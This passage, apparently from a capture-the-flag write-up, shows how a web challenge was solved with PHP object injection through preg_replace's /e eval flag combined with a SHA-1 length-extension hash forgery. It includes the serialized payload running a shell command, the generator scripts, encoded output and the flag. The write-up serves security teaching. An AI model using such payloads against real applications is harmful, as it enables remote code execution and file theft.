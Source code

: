 This performs a `preg_replace` on whatever data we send it. `preg_replace` uses regex to match a piece of text, then replaces it with another string. A little searching reveals that `preg_replace` has an optional `/e` flag that when used, calls `eval` on the replace string (`$this->repl` in this class) and replaces the matched data with the output of the `eval(replacement string)` instead of the actual replacement string. We can use this to call `cat /home/daedalus/flag.txt`. Let's modify our php code:

```php
<?php
  ---Object definitions ---
  $filters = array();
  $filter = new Filter ('/^(.*)/e' ,'`cat /home/daedalus/flag.txt`');
  array_push($filters,$filter);
  $test = new Post("Test","stuff",$filters);
  echo serialize($test);
?>
```
Note the \` at the beginning and end of `cat /home/daedalus/flag.txt`. This is important because `preg_replace` escapes input otherwise.

Now we add the new output of our PHP code to the python script:
```python
import hlextend
import urllib
exploit = """

O:4:"Post":3:{s:8:"\x00*\x00title";s:4:"Test";s:7:"\x00*\x00text";s:5:"stuff";s:10:"\x00*\x00filters";a:1:{i:0;O:6:"Filter":2:{s:10:"\x00*\x00pattern";s:8:"/^(.*)/e";s:7:"\x00*\x00repl";s:29:"`cat /home/daedalus/flag.txt`";}}}
"""
sha = hlextend.new('sha1')
data = sha.extend(exploit,'b:1;', 8, '2141b332222df459fd212440824a35e63d37ef69')
print 'custom_settings:  ' + urllib.quote_plus(data.replace('\\x','%'))
print 'custom_settings_hash:  ' + sha.hexdigest()

```
and get the output
```
custom_settings:  b%3A1%3B%2580%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%60%0A%0AO%3A4%3A%22Post%22%3A3%3A%7Bs%3A8%3A%22%00%2A%00title%22%3Bs%3A4%3A%22Test%22%3Bs%3A7%3A%22%00%2A%00text%22%3Bs%3A5%3A%22stuff%22%3Bs%3A10%3A%22%00%2A%00filters%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A6%3A%22Filter%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00pattern%22%3Bs%3A8%3A%22%2F%5E%28.%2A%29%2Fe%22%3Bs%3A7%3A%22%00%2A%00repl%22%3Bs%3A29%3A%22%60cat+%2Fhome%2Fdaedalus%2Fflag.txt%60%22%3B%7D%7D%7D%0A
custom_settings_hash:  99e3fd25b62d5224144c22609e9d210697693b66
```
Entering this into the site and viewing the source code reveals:
```
<!-- POST Test: D43d4lu5_w45_h3r3_w1th_s3rialization_chief_steve -->
```
Congratulations! If you made it this far you just solved the toughest Web Exploitation challenge in the competition!

Here are the scripts used during this write-up:

[Object Generator](objectgen.php)

[Hash Generator](hashgen.py)

### Flag
    D43d4lu5_w45_h3r3_w1th_s3rialization_chief_steve

